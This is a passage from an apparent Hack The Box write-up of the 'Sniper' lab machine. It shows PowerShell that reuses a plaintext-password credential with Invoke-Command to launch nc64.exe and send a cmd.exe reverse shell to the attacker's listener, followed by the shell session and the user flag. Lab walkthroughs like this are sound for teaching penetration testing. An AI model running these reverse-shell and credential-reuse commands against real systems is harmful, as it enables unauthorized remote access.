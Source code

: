 {% highlight shell %}
$user = "Sniper\Chris"
$pass = ConvertTo-SecureString '36mEAhz/B8xQ~2VM' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential($user,$pass)
Invoke-Command -Computer Sniper -ScriptBlock { mkdir C:\temp2 } -Credential $cred
PS C:\> cd temp2
cd temp2
PS C:\temp2> cp ..\temp\nc64.exe .
PS C:\temp2> Invoke-Command -Computer Sniper -ScriptBlock { C:\temp2\nc64.exe 10.10.14.29 31337 -e cmd.exe } -Credential $cred
Invoke-Command -Computer Sniper -ScriptBlock { C:\temp2\nc64.exe 10.10.14.29 31337 -e cmd.exe } -Credential $cred
{% endhighlight %}

<p>And with our listening shell ready and waiting...</p>

{% highlight shell %}
root@kali:~/Desktop/HTB/Sniper# nc -lnvp 31337
Listening on [0.0.0.0] (family 2, port 31337)
Connection from 10.10.10.151 49742 received!
Microsoft Windows [Version 10.0.17763.678]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Chris\Documents>whoami
whoami
sniper\chris

...

C:\Users\Chris\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 6A2B-2640

 Directory of C:\Users\Chris\Desktop

04/11/2019  08:15 AM    <DIR>          .
04/11/2019  08:15 AM    <DIR>          ..
04/11/2019  08:15 AM                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)  17,985,708,032 bytes free

C:\Users\Chris\Desktop>type user.txt
type user.txt
21f4d0f2*********************
C:\Users\Chris\Desktop>
{% endhighlight %}

<p>No time to sleep we need to continue down the rabbit hole.</p>

<h1>Root exploitation</h1>

<p>If we take a look at Chris' files we notice something interesting in the downloads. There is a file: instructions.chm. I wasn't too familiar with the file format so a quick search later and quickly find out it's a help file format. We are able to get it decompiled to a readable format. Seems our Chris is not exactly happy with his current situation, nor is his opinion of the CEO too flaterring.</p>
